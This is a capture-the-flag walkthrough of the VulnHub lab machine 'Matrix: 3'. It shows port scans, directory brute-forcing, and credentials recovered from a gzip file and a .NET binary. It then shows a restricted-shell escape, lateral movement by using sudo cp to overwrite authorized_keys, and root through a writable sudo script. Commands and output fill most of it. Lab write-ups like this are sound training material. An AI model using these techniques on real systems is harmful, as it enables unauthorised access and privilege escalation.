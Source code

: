 
Matrix: 3



~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
[+] Content Discovery
[+] Password HASH Cracking
[+] Disassembly with Ghidra
[+] Lateral Movement abusing SUDO rights with ssh-key using /bin/cp
[+] Privilege Escalation abusing SUDO rights /home/trinity/oracle
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Nmap Scanning

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Nmap scan report for 192.168.56.101
Host is up (0.00049s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    SimpleHTTPServer 0.6 (Python 2.7.14)
|_http-server-header: SimpleHTTP/0.6 Python/2.7.14
|_http-title: Welcome in Matrix
MAC Address: 08:00:27:E5:B2:AA (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.49 ms 192.168.56.101

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.91 seconds

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Scanning All Ports

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Starting Nmap 7.70 ( https://nmap.org ) at 2019-10-04 04:22 EDT
Nmap scan report for 192.168.56.101
Host is up (0.000056s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE
80/tcp   open  http
6464/tcp open  ieee11073-20701
7331/tcp open  swx
MAC Address: 08:00:27:E5:B2:AA (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 14.40 seconds

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Dirbuster discovered the following image:
Matrix_can-show-you-the-door.png

Browsing http://192.168.56.101/matrix

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~/vulnhub/matrix3# dirb http://192.168.56.101/Matrix

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Fri Oct  4 05:27:16 2019
URL_BASE: http://192.168.56.101/Matrix/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.56.101/Matrix/ ----
+ http://192.168.56.101/Matrix/4 (CODE:301|SIZE:0)                             
+ http://192.168.56.101/Matrix/6 (CODE:301|SIZE:0)                             
+ http://192.168.56.101/Matrix/c (CODE:301|SIZE:0)                             
+ http://192.168.56.101/Matrix/d (CODE:301|SIZE:0)                             
+ http://192.168.56.101/Matrix/e (CODE:301|SIZE:0)                             
+ http://192.168.56.101/Matrix/i (CODE:301|SIZE:0)                             
+ http://192.168.56.101/Matrix/k (CODE:301|SIZE:0)                             
+ http://192.168.56.101/Matrix/n (CODE:301|SIZE:0)                             
+ http://192.168.56.101/Matrix/o (CODE:301|SIZE:0)                             
+ http://192.168.56.101/Matrix/u (CODE:301|SIZE:0)                             
+ http://192.168.56.101/Matrix/v (CODE:301|SIZE:0)                             
+ http://192.168.56.101/Matrix/w (CODE:301|SIZE:0)                             
                                                                    
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


We found a file called secret.gz and found the login credentials to 192.168.56.101:7331


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~/vulnhub/matrix3# wget http://192.168.56.101/Matrix/n/e/o/6/4/secret.gz
--2019-10-04 05:28:28--  http://192.168.56.101/Matrix/n/e/o/6/4/secret.gz
Connecting to 192.168.56.101:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 39 [application/octet-stream]
Saving to: ‘secret.gz’

secret.gz         100%[===================>]      39  --.-KB/s    in 0s      

2019-10-04 05:28:28 (3.46 MB/s) - ‘secret.gz’ saved [39/39]

root@setrus:~/vulnhub/matrix3# strings secret.gz
admin:76a2173be6393254e72ffa4d6df1030a

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/Matrix%3A3/matrix31.png)



After logging in we crawl the application

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# curl -H "Authorization: Basic YWRtaW46cGFzc3dk" http://192.168.56.101:7331/robots.txt
User-agent: *
Disallow: /data/

root@setrus:~# curl -H "Authorization: Basic YWRtaW46cGFzc3dk" http://192.168.56.101:7331/data/

<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 3.2 Final//EN"><html>
<title>Directory listing for /data/</title>
<body>
<h2>Directory listing for /data/</h2>
<hr>
<ul>
<li><a href="data">data</a>
</ul>
<hr>
</body>
</html>


root@setrus:~/vulnhub/matrix3# curl -H "Authorization: Basic YWRtaW46cGFzc3dk" http://192.168.56.101:7331/data/data --output data
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  9696  100  9696    0     0  1893k      0 --:--:-- --:--:-- --:--:-- 1893k
root@setrus:~/vulnhub/matrix3# ls -al data
-rwxr-xr-x 1 root root 9696 Oct  4 05:35 data
root@setrus:~/vulnhub/matrix3# file data
data: PE32 executable (GUI) Intel 80386 Mono/.Net assembly, for MS Windows


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


This is Windows executable file
We open it with Ghidra :  we found the username and password to login via ssh

![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/Matrix%3A3/matrix32.png)

Credentials : 
guest
7R1n17yN30


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~/vulnhub/matrix3# ssh guest@192.168.56.101 -p6464
guest@192.168.56.101's password: 
Last login: Fri Oct  4 09:40:35 2019 from 192.168.56.102
guest@matrix:~$ id
-rbash: id: command not found
guest@matrix:~$
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Escaping restricted shell

Logging in without profile

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
oot@setrus:~/vulnhub/matrix3# ssh guest@192.168.56.101 -p6464 -t "bash --noprofile"
guest@192.168.56.101's password: 
guest@matrix:~$ id
uid=1000(guest) gid=100(users) groups=100(users),7(lp),11(floppy),17(audio),18(video),19(cdrom),83(plugdev),84(power),86(netdev),93(scanner),997(sambashare)
guest@matrix:~$ sudo -l
User guest may run the following commands on matrix:
    (root) NOPASSWD: /usr/lib64/xfce4/session/xfsm-shutdown-helper
    (trinity) NOPASSWD: /bin/cp
guest@matrix:~$ 

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


users has sudo -l to trinity user
In order to get access as user trinty, create a pair of ssh-keys and copy them in authorization_keys for trinity

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
guest@matrix:~/.ssh$ ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/guest/.ssh/id_rsa): 
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/guest/.ssh/id_rsa.
Your public key has been saved in /home/guest/.ssh/id_rsa.pub.
The key fingerprint is:
SHA256:xP5TWyA6dhta9PcJTbXSjGgYKzAYgOyk+Ss8SYI0QuM guest@matrix
The key's randomart image is:
+---[RSA 2048]----+
|o...oo   .      .|
|.= .  o.  + . + o|
|*..    .oooo.o = |
|+E     o.o.o .+  |
|+..     S + o.o. |
|o..    . * + +...|
|+ ..    . + .  ..|
|.+.        .     |
| ..              |
+----[SHA256]-----+
guest@matrix:~/.ssh$ ls
id_rsa  id_rsa.pub  known_hosts
guest@matrix:~/.ssh$ chmod 777 id_rsa.pub 
guest@matrix:~/.ssh$ cp id_rsa.pub ../
guest@matrix:~/.ssh$ cd ..
guest@matrix:~$ ls
Desktop/    Downloads/  Pictures/  Videos/      prog/
Documents/  Music/      Public/    id_rsa.pub*
guest@matrix:~$ sudo -u trinity /bin/cp id_rsa.pub /home/trinity/.ssh/authorized_keys

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Privilege escalation to root

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
guest@matrix:~$ ssh trinity@192.168.56.101 -p6464
The authenticity of host '[192.168.56.101]:6464 ([192.168.56.101]:6464)' can't be established.
ECDSA key fingerprint is SHA256:BMhLOBAe8UBwzvDNexM7vC3gv9ytO1L8etgkkIL8Ipk.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '[192.168.56.101]:6464' (ECDSA) to the list of known hosts.
Last login: Mon Aug  6 16:37:45 2018 from 192.168.56.102
trinity@matrix:~$ sudo -l
User trinity may run the following commands on matrix:
    (root) NOPASSWD: /home/trinity/oracle
trinity@matrix:~$ ls
Desktop/  Documents/  Downloads/  Music/  Pictures/  Public/  Videos/
trinity@matrix:~$ echo '/bin/bash' > oracle
trinity@matrix:~$ chmod +x oracle 
trinity@matrix:~$ sudo /home/trinity/oracle
root@matrix:/home/trinity# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


